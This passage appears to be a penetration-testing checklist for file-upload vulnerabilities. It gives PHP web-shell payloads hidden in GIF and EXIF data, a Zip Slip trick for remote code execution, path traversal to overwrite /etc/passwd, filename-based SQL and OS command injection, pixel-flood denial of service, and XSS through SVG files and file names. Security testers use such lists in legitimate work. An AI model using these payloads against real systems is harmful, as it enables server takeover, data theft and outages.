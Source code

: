         ```bash
        GIF89a; <?php system($_GET['cmd']); ?>
        ```
        
    - Misc
        - [ ]  Uploading `file.js` & `file.config` (web.config)
        - [ ]  Pixel flood attack using image
        - [ ]  DoS with a large values name:
        - [ ]  Zip Slip
        1. If a site accepts .zip file, upload .php and compress it into .zip and upload it. Now visit, site.com/path?page=zip://path/file.zip%23rce.php
        - [ ]  Image Shell
        1. Exiftool is a great tool to view and manipulate exif-data. Then I will to rename the file mv pic.jpg pic.php.jpg
        
        ```bash
        exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
        ```
        
- The webapp is php based and the file you upload is accessible
- bypass the restrictions ( well be discussed )
- **File overwrite**
    - Create a system file like /etc/passwd
    - Upload the file and Capture the request
    - Modify the the request by changing the **filename parameter** to **../../../../../etc/passwd**
- **Path Traversal** = is the same as above but not system files
- **Large File DoS**
    - make an img file with size of 500mb
    - Upload it and check it out it accepts or not
- **Server-Side Injection (Sql inj & Os command)**
    - Upload your file and capture the request
    - change its name to name=test.png —> name=sleep(10)— -.png (for SQL)
    - change its name to name=test.png —> name=test;sleep(9);.png (for OS Injection)
    - It is Also possible to test XSS
- **Metadata Leakage**
    - As known, EXIF Metadata Leakage/Information Leakage
    - Not all of ‘em are vulnerable, and not images are vulnerable yet PDFs upload are too!
    - Upload your image, and click on the uploaded image COPY its link
    - Now, use [this site](http://exif.regex.info/exif.cgi)  to check the image for EXIF data leakage.
    - This GitHub repository is might be useful https://github.com/ianare/exif-samples
- Pixel Flood Attack
    - An Attacker can upload an image with a large pixel size that results in DoS
    - To test, navigate to [https://www.resizepixel.com](https://www.resizepixel.com) and resize an image with 64250*64550px.
    - Upload the image, and observe the server’s response.
    - If the server takes too long to respond or if the application became inaccessible, confirm with another device
- **Cross Site Scripting (XSS)**
    - XSS via SVG file upload
        - Create an SVG file containing a cross-site scripting payload (PayloadAllTheThings)
        - Upload the file
        - open the SVG file or Go to the endpoint that calls the SVG file
    - XSS via Image Name
        - Create any file, e.g. a PNG file and name it with XSS payload like the following
        - <script>alert(origin)</script>.png
        - Upload your file and Go to the endpoint that calls the files or stores the files
        